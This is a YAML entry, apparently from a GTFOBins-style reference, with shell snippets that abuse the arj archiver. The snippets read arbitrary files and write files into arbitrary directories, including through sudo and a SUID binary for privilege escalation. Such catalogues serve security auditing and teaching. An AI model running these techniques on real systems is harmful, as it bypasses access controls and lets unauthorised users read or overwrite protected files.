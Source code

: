 ```yaml
---
functions:
  file-read:
    - description: The file appears amid some other textual information. The archive can also be downloaded then extracted offline.
      code: |
        TF=$(mktemp -u)
        LFILE=file_to_read
        arj a "$TF" "$LFILE"
        arj p "$TF"
  file-write:
    - description: The archive can also be prepared offline then uploaded.
      code: |
        TF=$(mktemp -d)
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >"$TF/$LFILE"
        arj a "$TF/a" "$TF/$LFILE"
        arj e "$TF/a" $LDIR
  sudo:
    - description: The archive can also be prepared offline then uploaded.
      code: |
        TF=$(mktemp -d)
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >"$TF/$LFILE"
        arj a "$TF/a" "$TF/$LFILE"
        sudo arj e "$TF/a" $LDIR
  suid:
    - description: The archive can also be prepared offline then uploaded.
      code: |
        TF=$(mktemp -d)
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >"$TF/$LFILE"
        arj a "$TF/a" "$TF/$LFILE"
        ./arj e "$TF/a" $LDIR
---
```

